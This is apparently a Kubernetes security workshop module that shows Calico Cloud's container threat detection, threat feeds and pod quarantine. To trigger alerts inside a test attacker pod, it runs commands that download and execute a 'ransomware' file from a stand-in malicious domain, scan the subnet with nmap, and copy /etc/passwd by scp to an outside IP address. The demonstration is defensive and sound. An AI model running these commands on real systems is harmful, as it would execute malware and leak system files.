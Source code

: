 # Module 3 - Malware protection, access control and quarantine with Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

## Malware execution alert and security events

Security events suggest the possible presence of a threat actor in your Kubernetes cluster. These events can take various forms, such as a DNS request to a suspicious domain, the activation of a Web Application Firewall (WAF) rule, unauthorized access to sensitive files, or the detection of malware. Calico Cloud offers a centralized dashboard for security engineers and incident response teams to efficiently oversee and respond to these threat alerts. The advantages of using Calico Cloud in this context include:

- A filtered list of critical events with recommended remediation
- Identify impacts on applications
- Understand the scope and frequency of the issue
- Manage alert noise by dismissing events (show/hide)

To test this feature, let's download a file that contains the hash of a malware and execute it inside the pod attacker.

1. Execute the bash inside the pod attack in way you can interact with its shell prompt:

   ```bash
   kubectl exec attack -it -- /bin/bash
   ```

2. From the bash inside the pod attacker execute the following command to: 1) Download the malware, change its permission and run it.

   ```bash
   wget http://evildoer.xyz/ransomware
   chmod +x ransomware
   ./ransomware
   ```
   
3. Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   ![security-events](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/200b4d0b-490a-4d7c-b18e-ef9c59cc6079)

   Because the `ransomware` file has a hash that identifies it as a malware, Calico will create a **Malware** event indicating its execution event. Additionally, a security event showing the modification of the file permission (`chmod +x ransomware`) will be created as well.

   Optionally, you can also try the following commands and observe the security events that are created;
   
   ```bash
   apk add nmap
   nmap -sn $(hostname -i)/24
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security` again.

## Threat Feeds

In modern cloud-native security, threat intelligence feeds are vital for monitoring and tracking the IP addresses and domains associated with known malicious actors. Calico Cloud integrates threat intelligence feeds, including AlienVault, into its default security policies. This means that right from the outset, any traffic directed to suspicious IP addresses or domain is automatically blocked without requiring additional setup.

1. Explore the Threat Feeds available in Calico Cloud UI in the `Threat Defense` > `Threat Feeds`. Click on each one of them to visualize the lists of IP addresses or domains.

![threat-feeds](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/719cb334-e981-4e5e-8ef4-b37eea4a422b)

2. Using the pod attacker, try to connect to some of the IP addresses and domains you found in the alienvault lists.

   ```bash
   curl -m2 -vvvvv 
   ```

3. Wait a minute and go to the Calico Cloud UI in the `Activity` > `Alerts`. You should be able to see the alerts for the connection attempt.

![activity-alerts](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/ed2aad8c-f713-4e0e-b5c5-8abdb299fdb4)

## Quarantine a workload

Suppose you have a compromised workload in your environment and want to conduct further investigation on it. In that case, you should not terminate the workload but isolate it, so it will not be able to cause damage or spread laterally across your environment. In this situation, you should quarantine the pod by applying a security policy to it that will deny all the egress and ingress traffic and log all the communications attempts from and to that pod.

We have the `quarantine` policy created in the `security` tier. This policy has a label selector of `quarantine = true`. Let's see how it works.

1. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   - Test the connection to a local service

     ```bash
     curl -m3 http://vote.vote
     ```

   - Test the connectivity with the Kubernetes API

     ```bash
     curl -m3 -k https://kubernetes:443/versions
     ```  

   - Test the connectivity with the internet

     ```bash
     curl -m3 http://neverssl.com
     ```  

2. Label the attacker pod with `quarantine = true`. 

   ```bash
   kubectl label pod attacker quarantine=true
   ```

3. Repeat the tests from step 1. Now, as you can see, the cannot establish communication with any of the destinations.

--- 
[:arrow_right: Module 4 - Enforcing security policy to stop C&C attacks](/mod/module-4-security-policies.md)   <br>

[:arrow_left: Module 2 - Analyze service-to-service communication](/mod/module-2-analyze-communications.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
